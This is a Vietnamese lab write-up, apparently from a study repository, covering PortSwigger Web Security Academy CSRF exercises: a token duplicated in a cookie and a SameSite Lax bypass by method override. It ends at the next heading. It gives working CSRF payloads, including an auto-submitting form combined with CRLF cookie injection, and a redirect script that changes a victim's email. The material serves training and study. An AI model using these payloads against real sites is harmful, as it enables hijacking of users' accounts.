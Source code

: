 ## CSRF where token is duplicated in cookie

Context: Bài này `csrf` token sẽ trùng với `csrf` cookie

Vẫn tương tự bài trước thì `Search` sẽ được thể hiện qua cookie

Ta sẽ chỉ cần tạo 1 fake `csrf token` và `csrf cookie` giống nhau ở phía victim:

Payload:

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0afa004403c0e408818f0cbd00de0051.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="absssa&#64;gmail&#46;net" />
        <input type="hidden" name="csrf" value="XBeN2PtpvYuFiueM15QTTYjQu37nWczz" />
        <input type="submit" value="Submit request" />
    </form>


    <img src="https://0afa004403c0e408818f0cbd00de0051.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=XBeN2PtpvYuFiueM15QTTYjQu37nWczz%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

## SameSite Lax bypass via method override

Context: Cần bypass `Samesite: Lax`, không có csrf token mà dựa vào cookie để check

Ở phần change-email thì không có sự xuất hiện của csrf token, nhưng khi attack theo kiểu truyền thống thì không thành công, có thể do cần thêm cookie để xác nhận. 

Mặt khác, cookie được tạo và không đặt `Samesite` nên mặc định nó là `Lax`. Với Lax cookie chỉ được include vào request khi đó là `GET` và đến 1 URL cấp cao hơn. Hoặc điều hướng từ trang gốc đến 1 trang redirect

Nhưng khi chuyển qua `GET` nó đang không cho phép request

Thêm parameter `_method=POST` (ghi đè method) thì nó thành công

Payload: 
```js
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

Tham khảo cách khác để ghi đè method: https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/

## SameSite Strict bypass via client-side redirect
